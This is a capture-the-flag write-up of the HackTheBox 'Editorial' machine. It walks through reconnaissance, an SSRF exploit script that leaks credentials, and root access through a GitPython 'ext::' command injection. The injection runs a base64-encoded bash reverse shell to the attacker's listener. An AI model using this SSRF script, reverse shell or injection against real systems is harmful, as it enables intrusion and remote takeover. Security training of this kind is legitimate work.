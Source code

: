 ```yaml
---
title: Editorial
tags:
  - Linux
  - Fuzzing
  - Python-Scripting
  - Git
  - HackTheBox
  - Easy
date: 2024-07-01T00:00:00Z
---
```

![](Pasted%20image%2020240901150640.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.20 editorial.htb" | sudo tee -a /etc/hosts
```

After that, I performed an Nmap scan:

```shell
nmap -sC -T4 -p- editorial.htb > sC.txt
 
[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http
|_http-title: Editorial Tiempo Arriba
```

So I took a look at the webpage:

![](Pasted%20image%2020240901150852.png)

After some inspection, I decided to perform a subdomain scan with [Ffuf 🐳](/notes/tools/Ffuf.md), but I didn't find anything, so I performed a [dirsearch 📁](/notes/tools/dirsearch.md) scan:

```shell
dirsearch -u http://editorial.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

[redacted]
[15:11:18] 200 -    3KB - /about                                            
[15:11:19] 200 -    7KB - /upload
```

> The `/upload` sounds interesting :3. Let's inspect it:

![](Pasted%20image%2020240901151316.png)

## Exploitation

It seems kinda form submission. Let's try to upload a picture and capture the request with [BurpSuite 📙](/notes/tools/BurpSuite.md):

- If you try to preview the image with the URL related to the book set as `127.0.0.1`, the image shown is the default image:

![](Pasted%20image%2020240901154557.png)

![](Pasted%20image%2020240901154609.png)

We can try to check for SSRF capturing the POST request and then fuzzing it with [Ffuf 🐳](/notes/tools/Ffuf.md):

![](Pasted%20image%2020240901160724.png)

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Infrastructure/common-http-ports.txt:FUZZ -u http://editorial.htb/upload-cover -request post.req -fs 61

[redacted]
5000           [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 93ms]
```

Now we can check what does this target:

![](Pasted%20image%2020240901161041.png)

We've just obtained info related to some service in `127.0.0.1:5000`. I crafted a small script to make easier the ssrf:

```python
import requests
import sys
import json

POST_TARGET = "http://editorial.htb/upload-cover"
GET_TARGET = "http://editorial.htb/"

HEADERS = {"Host": "editorial.htb",
          "Content-Length": "307",
          "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36",
          "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundarypAISdQrbltAeHDXW",
          "Accept": "*/*",
          "Sec-GPC": "1",
          "Accept-Language": "en-US,en;q=0.6",
          "Origin": "http://editorial.htb",
          "Referer": "http://editorial.htb/upload",
          "Accept-Encoding": "gzip, deflate, br",
          "Connection": "close"}

POST_DATA = f"""------WebKitFormBoundarypAISdQrbltAeHDXW
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:5000{sys.argv[1]}
------WebKitFormBoundarypAISdQrbltAeHDXW
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarypAISdQrbltAeHDXW--"""

post_result = requests.post(POST_TARGET, headers=HEADERS, data=POST_DATA)
get_result = requests.get(GET_TARGET+post_result.text)
print(json.loads(get_result.text))
```

If we run it like: 

```shell
python3 expoloit.py /

{'messages': [{'promotions': {'description': 'Retrieve a list of all the promotions in our library.', 'endpoint': '/api/latest/metadata/messages/promos', 'methods': 'GET'}}, {'coupons': {'description': 'Retrieve the list of coupons to use in our library.', 'endpoint': '/api/latest/metadata/messages/coupons', 'methods': 'GET'}}, {'new_authors': {'description': 'Retrieve the welcome message sended to our new authors.', 'endpoint': '/api/latest/metadata/messages/authors', 'methods': 'GET'}}, {'platform_use': {'description': 'Retrieve examples of how to use the platform.', 'endpoint': '/api/latest/metadata/messages/how_to_use_platform', 'methods': 'GET'}}], 'version': [{'changelog': {'description': 'Retrieve a list of all the versions and updates of the api.', 'endpoint': '/api/latest/metadata/changelog', 'methods': 'GET'}}, {'latest': {'description': 'Retrieve the last version of api.', 'endpoint': '/api/latest/metadata', 'methods': 'GET'}}]}
```

We can see that there are some endpoints. If we inspect the `api/latest/metadata/messages/authors` endpoint, we obtain this:

```shell
python3 exploit.py /api/latest/metadata/messages/authors

{'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```

> We've got credentials!: `dev:dev080217_devAPI!@`. We obtained user flag also :D

![](Pasted%20image%2020240901163200.png)

## Privilege Escalation

We first upload linpeas to the machine, and run it. Nothing is clearly a PE, so I decided to take a look at the `apss` directory. Inside of it there is a git configuration. So we can do the following:

```shell
git log #to see the previous commits done
```

![](Pasted%20image%2020240901164410.png)

There is one of them quite interesting which is `downgrading prod to dev`, so we can show more specific data of that commit using:

```shell
git show [commit_hash]

git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae

[redacted]
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
```

And there it is, we've got prod's creds: `prod:080217_Producti0n_2023!@`.

Once changed the user:

```shell
sudo -l

[redacted]
User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

If we analyze the file:

![](Pasted%20image%2020240901165240.png)

I searched the internet for CVE related to git library and found [https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)

As it affects versions `[0, 3.1.30]`, I checked the current version in use:

```shell
pip3 list | grep -i git
gitdb                 4.0.10
GitPython             3.1.29
```

So we can exploit this vulnerability :D

I created a `exploit.sh` with the following content:

```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MC82NjYgMD4mMQ== | base64 -d | bash

# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MC82NjYgMD4mMQ== is a simple reverse shell
```

I set up a nc listener, an then I executed the following:

```shell
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh /tmp/exploit.sh'
```

> We are root now, and we've got the root flag :D

![](Pasted%20image%2020240901171120.png)



